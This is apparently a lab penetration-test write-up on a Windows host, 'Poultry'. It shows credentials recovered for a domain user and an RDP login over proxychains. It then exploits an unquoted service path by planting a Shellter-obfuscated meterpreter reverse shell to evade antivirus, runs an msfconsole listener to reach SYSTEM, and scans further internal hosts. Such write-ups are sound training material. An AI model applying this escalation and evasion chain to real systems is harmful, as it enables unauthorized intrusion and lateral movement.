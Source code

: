 # Poultry (10.5.5.20)
***
## Exploitation
> [!info] 
>  While exploring SMB share (on Zora), a powershell script named `system_report.ps1` was found inside `/mnt/Scripts` containing credentials of a domain user named `alex`. 

``` 
username = "sandbox\alex"
password = "Ndawc*nRoqkC+haZ"
```

1. From our previous exploits (**Zora**), we already know that `10.5.5.20` has a running **Remote Desktop Protocol (RDP)**. And since we have one of the user's credential, we established a connection to  `10.5.5.20` using the command
   
```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```

![[poultry-rdp.png]]

***
## Post-exploitation

1. We started checking for non-standard services. One of the first things that stands out to us is the `Puppet Agent` has a service path that is unquoted. After further checking, we confirmed that the service is configured to run via `Local System` which could potentially give us an elevated permissions.
   
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"
```

![[poultry-services.png]]

> [!note] 
> We noticed that McAfee  Anti-virus is also running.

2. In order to leverage the unquoted path `C:\Puppet\Current Version`, we created a reverse shell named `Current.exe`  and place it in `C:\Puppet`.

> [!important] 
> Since the target has an anti-virus installed, we also have to make sure that  our reverse shell won't get flagged or detected. We used [Shellter](https://www.shellterproject.com/download/) to achieve this.
> 
> We used a regular Windows executable (in this case the `whoami.exe`) and injected our meterpreter payload using [Shellter](https://www.shellterproject.com/download/). We then renamed it to `Current.exe`.

3. We then started our meterpreter listener
```
sudo msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost KALI_IP; set lport 80; exploit"
```

4. After restarting (`shutdown /r -t 5`) the machine, we were able to get a connection on our meterpreter running in the context of `NT AUTHORITY\SYSTEM`
![[poultry-system.png]]

5. We ran ping sweep and discovered 2 other connected hosts: `10.5.5.25` and `10.5.5.30`
   
   ![[poultry-pingsweep.png]]
6. We ran an nmap scan on 2 newly discovered hosts.

```
proxychains nmap --top-ports=1000 -sT -Pn 10.5.5.25,30 --open
...
...
...
Nmap scan report for 10.5.5.30
Host is up (0.80s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap scan report for 10.5.5.25
Host is up (0.80s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
```

We noticed the open port **53**  on `10.5.5.30` which suggests that it could be a domain controller. Port **8080** on `10.5.5.25` is also interesting.